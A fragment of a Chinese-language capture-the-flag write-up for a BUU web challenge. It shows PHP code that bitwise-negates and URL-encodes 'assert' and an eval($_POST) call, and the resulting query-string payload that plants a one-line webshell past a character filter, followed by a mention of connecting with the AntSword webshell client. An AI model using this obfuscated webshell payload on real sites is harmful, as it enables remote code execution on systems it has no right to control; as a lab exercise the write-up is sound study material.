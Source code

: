flag是空的，readflag是elf文件：

![image-20220405234450364](BUU-WEB-0x30-0x3F/image-20220405234450364.png)

传一句话马：

```php
<?php 
error_reporting(0);

$a='assert';
$b=urlencode(~$a);
echo $b;

echo "<br>";
$c='(eval($_POST["test"]))';
$d=urlencode(~$c);
echo $d;
 
 ?>
?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%8B%9A%8C%8B%DD%A2%D6%D6);
```

蚁剑连之后并没有权限，有这样一个插件

![image-20220405235340391](BUU-WEB-0x30-0x3F/image-20220405235340391.png)
